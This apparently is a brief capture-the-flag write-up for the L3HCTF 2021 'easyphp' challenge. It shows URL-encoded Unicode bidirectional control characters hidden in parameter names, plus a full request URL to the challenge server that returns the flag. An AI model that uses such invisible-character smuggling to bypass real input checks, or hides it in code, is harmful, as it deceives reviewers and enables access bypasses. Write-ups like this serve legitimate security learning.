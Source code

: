 ![image](/uploads/l3hctf2021/easyphp/image.png)

Copy the parameter directly from the source code can get the real value

That means the parameter should be:
```
username=admin

%E2%80%AE%E2%81%A6L3H%E2%81%A9%E2%81%A6password=%E2%80%AE%E2%81%A6CTF%E2%81%A9%E2%81%A6l3hctf
```
Goto `http://124.71.176.131:10001/?username=admin&%E2%80%AE%E2%81%A6L3H%E2%81%A9%E2%81%A6password=%E2%80%AE%E2%81%A6CTF%E2%81%A9%E2%81%A6l3hctf` will get the flag!
